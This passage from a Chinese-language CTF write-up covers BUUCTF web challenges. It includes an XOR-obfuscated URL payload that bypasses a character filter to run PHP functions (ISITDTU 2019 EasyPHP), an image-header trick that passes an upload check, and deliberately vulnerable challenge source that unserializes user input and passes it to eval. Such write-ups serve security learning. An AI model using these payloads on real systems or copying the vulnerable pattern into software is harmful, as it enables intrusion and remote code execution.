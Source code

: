 这一步限制了只能有十三种字符出现

命令执行都被过滤了

然后就配合异或想办法绕过十三字符的限制，就贴个wp吧

[[ISITDTU 2019]EasyPHP](https://www.shawroot.cc/1209.html)

最终**payload**

```
http://1f5a71fa-3d9b-4a86-8224-8c23e205c42d.node4.buuoj.cn:81/?_=((%8c%9a%9e%9b%9c%96%93%9a)^(%ff%ff%ff%ff%ff%ff%ff%ff)^(%9b%ff%ff%ff%93%ff%ff%ff)^(%9a%ff%ff%ff%96%ff%ff%ff))(((%9a%9c%9b)^(%ff%ff%ff)^(%ff%93%ff)^(%ff%9e%ff))(((%8c%9c%9e%9c%9b%96%8c)^(%ff%ff%ff%ff%ff%ff%ff)^(%ff%ff%ff%93%ff%ff%9b)^(%ff%ff%ff%9e%ff%ff%9a))(%d1^%ff)));
```

## [HarekazeCTF2019]Avatar Uploader 1

原题是给出了源码的，**buu**上面没给

其实就是上传一个只保留了文件头的文件绕过`getimagesize`，绕过了就给**flag**

![image-20221228001152859](four.assets/image-20221228001152859.png)

上传得到flag

## [极客大挑战 2020]Greatphp

```php
<?php
error_reporting(0);
class SYCLOVER {
    public $syc;
    public $lover;

    public function __wakeup(){
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
           if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
               eval($this->syc);
           } else {
               die("Try Hard !!");
           }
           
        }
    }
}

if (isset($_GET['great'])){
    unserialize($_GET['great']);
} else {
    highlight_file(__FILE__);
}

?>
```
